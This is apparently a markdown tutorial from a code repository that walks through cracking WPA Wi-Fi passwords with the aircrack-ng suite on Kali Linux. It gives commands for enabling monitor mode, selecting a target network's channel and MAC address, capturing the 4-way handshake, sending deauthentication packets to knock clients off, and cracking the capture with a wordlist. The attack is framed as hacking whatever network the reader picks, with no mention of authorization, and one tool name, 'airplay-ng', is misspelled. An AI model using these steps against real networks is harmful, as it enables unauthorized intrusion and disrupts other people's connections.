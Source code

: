 ### **Requirements:**

1. **Hardware Requirements:**
    
    - **Base Machine:** Kali Linux.
    - **Network Adapter:**
        - Use an **external adapter** or add a compatible one to your virtual machine.
    - **Extension Pack:** Ensure the VirtualBox Extension Pack is installed.
2. **VirtualBox Setup:**
    
    - Change the settings to add the USB (network adapter).
    - After connecting the external network adapter, you should:
        - Be able to access the internet inside the Kali machine.
        - Verify the adapter with the `ip a` command.
3. **Promiscuous Mode and Monitor Mode:**
    
    - **Promiscuous Mode:** Allows Ethernet adapters to see all packets.
    - **Monitor Mode:** Required for wireless adapters to capture packets.

---

### **Understanding the Wi-Fi Password Process:**

- **4-Way Handshake:**
    - A critical exchange during Wi-Fi authentication.
    - If these handshake packets are captured correctly, they can be cracked to reveal the password.

---

### **Tools Used:**

1. **airmon-ng:** Enables monitoring mode.
2. **airodump-ng:** Captures Wi-Fi data packets.
3. **aircrack-ng:** Cracks Wi-Fi passwords.
4. **airplay-ng:** Disconnects clients from the network to force reconnections (for EAPOL packet capture).

---

### **Steps to Hack Wi-Fi:**

#### **1. Enable Monitor Mode:**

1. Start monitoring mode:
    ```bash
    sudo airmon-ng
    sudo airmon-ng start wlan0
    ip a  # Verify the adapter is now in monitoring mode (e.g., wlan0mon)
    ```
#### **2. Identify the Target Wi-Fi Network:**

1. Scan for Wi-Fi networks:
    ```bash
    sudo airodump-ng --band bg wlan0
    ```
    
    - Note the **channel number** and **MAC address** of the Wi-Fi network you want to hack.

#### **3. Capture 4-Way Handshake Packets:**

1. Start packet capturing in a new terminal:
    
    ```bash
    mkdir hackwifi && cd hackwifi
    sudo airodump-ng -c <channel-number> --bssid <mac-address> -w hack wlan0mon
    ```
    
    - **Options:**
        - `-c`: Channel number of the target network.
        - `--bssid`: MAC address of the target network.
        - `-w hack`: Output filename (`hack` in this example).

---

#### **4. Crack the Password:**

1. **Wordlist Preparation:**
    
    - Use a pre-existing wordlist or create your own. Example:
        
        ```bash
        cp /usr/share/metasploit-framework/data/wordlists/password.lst wordlist
        ```
        
2. **Crack the Handshake Packets:**
    
    ```bash
    sudo aircrack-ng -w wordlist -b <mac-address> hack-01.cap
    ```
    
    - **Options:**
        - `-w`: Path to the wordlist.
        - `-b`: MAC address of the target Wi-Fi.
        - `hack-01.cap`: File created during handshake capture.
    - The tool scans the wordlist and reveals the password within seconds if it's present in the list.

---

#### **5. Force Client Disconnection (Optional):**

- Use `airplay-ng` to disconnect clients from the network. This forces reconnections, making it easier to capture EAPOL packets. Example:
    
    ```bash
    sudo airplay-ng -0 <number_of_deauth_packets> -a <bssid> wlan0mon
    ```
    

---

## **Extra**

### **4-Way Handshake:**

The 4-Way Handshake is a process used in Wi-Fi networks to securely connect a device to a router. Here's how it works:

1. **Purpose:** It ensures that both the router and the device know the Wi-Fi password without directly sharing it.
2. **Steps:**
    - The router sends a random number (Nonce) to the device.
    - The device uses this number and the password to create a unique response.
    - The router verifies the response.
    - Both sides agree on encryption keys for secure communication.

If you capture these handshake packets, you can use tools to crack the Wi-Fi password.

---
